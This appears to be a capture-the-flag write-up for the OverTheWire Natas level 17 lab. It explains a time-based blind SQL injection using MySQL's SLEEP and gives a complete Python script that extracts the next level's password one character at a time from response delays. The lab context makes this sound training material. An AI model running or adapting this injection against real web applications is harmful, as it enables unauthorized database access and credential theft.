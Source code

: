 Alright, so we have another SQL challenge, but this time, it looks like the `echo` lines are commented out. We no longer have an output to determine whether our query was `true` or `false`. However, this doesn't mean we're out of luck just yet.

We can take advantage of MySQL's [`SLEEP`](https://dev.mysql.com/doc/internals/en/sleep.html) command, which allows us to do a time-based blind SQLi.

[Asyncio](files/natas/natas17_async.py)\
[Without Asyncio](files/natas/natas17.py):

```python
#!/usr/bin/env python3
import requests
from urllib.parse import urlencode


url = 'http://natas17.natas.labs.overthewire.org/index.php?'
auth = ('natas17', natas17_pass)

def get_charset(sleep=1):
    alnum = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
    charset = ''
    for char in alnum:
        sqli = ('natas18" and '
               f'password like binary "%{char}%" and '
               f'sleep({sleep})#')
        payload = urlencode({'username': sqli})
        r = requests.get(url+payload, auth=auth)
        if r.elapsed.total_seconds() >= sleep:
            charset += char
    return charset

def get_password(charset, sleep=1):
    password = ''
    while True:
        for char in charset:
            sqli = ('natas18" and '
                   f'password like binary "{password+char}%" and '
                   f'sleep({sleep})#')
            payload = urlencode({'username': sqli})
            r = requests.get(url+payload, auth=auth)
            if r.elapsed.total_seconds() >= sleep:
                password += char
                break
        else:
            break
    return password


if __name__ == '__main__':
    time = 1
    charset = get_charset(time)
    password = get_password(charset, time)
    print(password)
```
